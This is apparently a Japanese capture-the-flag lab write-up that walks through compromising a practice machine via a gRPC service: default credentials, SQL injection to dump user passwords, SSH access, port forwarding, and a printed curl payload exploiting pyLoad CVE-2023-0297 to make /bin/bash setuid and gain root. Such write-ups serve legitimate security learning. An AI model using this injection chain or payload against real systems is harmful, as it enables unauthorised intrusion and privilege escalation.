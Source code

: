 #### nmap
![[Pasted image 20230901054025.png]]

Webにアクセスすると文字化けして表示されない
![[Pasted image 20230901054100.png]]

port50051について検索するとgRPCで使用されるポートらしい
https://documentation.softwareag.com/webmethods/compendiums/v10-11/C_API_Management/index.html#page/api-mgmt-comp/to-grpc_configuration_7.html

下のページにはSQL Injectionの脆弱性があることがかかれている
https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9

grpcを使うためのツールをダウンロードする
https://github.com/fullstorydev/grpcui/releases/tag/v1.3.1

```shell
./grpcui -plaintext 10.10.11.214:50051
```
![[Pasted image 20230901055146.png]]

コマンドを実行すると自動的にWebページが開く
![[Pasted image 20230901055330.png]]

デフォルトのユーザー名とパスワードを検索するとadmin/adminになっている
![[Pasted image 20230901055439.png]]

![[Pasted image 20230901060439.png]]


ID番号とtokenが表示されるのでこれを「getInfo」の画面で入力する
![[Pasted image 20230901060635.png]]

ここでBurp suiteを起動して受信する
（デフォルトのプロキシ設定ではうまく受信しなかったのでFoxyproxyを使った）
Repeateに送って検証する
![[Pasted image 20230901061158.png]]

「’」を入力してSQL Injectionの確認をする
200で帰ってくるので脆弱性があることが確認できる

![[Pasted image 20230901203446.png]]

![[Pasted image 20230901204029.png]]

union selectでユーザー名とパスワード表示させる
![[Pasted image 20230901204310.png]]

#### SSH接続

判明したユーザー名とパスワードでSSH接続をする

![[Pasted image 20230901204530.png]]

#### 権限昇格

「sudo -l」やlinpeas.shなどを試しても特に何も得られない
開いているポートを確認してみるとローカルで8000番ポートが開いているのが分かる
![[Pasted image 20230901204809.png]]

sshでローカルポートフォワーディングを実施する（新しいコンソールで実施した方が確実）
```shell
ssh -L 8888:127.0.0.1:8000 sau@10.10.11.214
```

![[Pasted image 20230901213316.png]]

ブラウザに「127.0.0.1:8888」と入力すると「pyLoad」の画面が出てくる
![[Pasted image 20230901213448.png]]

pyloadのバージョンを確認する

![[Pasted image 20230901213646.png]]

「pyload 0.5.0 exploit」で検索するとRCEが見るかる
https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad

このページの「Exploit Code」を編集して使う
実行後に「/bin/bash -p」を実行するとルートになれる
```shell
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

```shell
/bin/bash -p
```

![[Pasted image 20230901214029.png]]

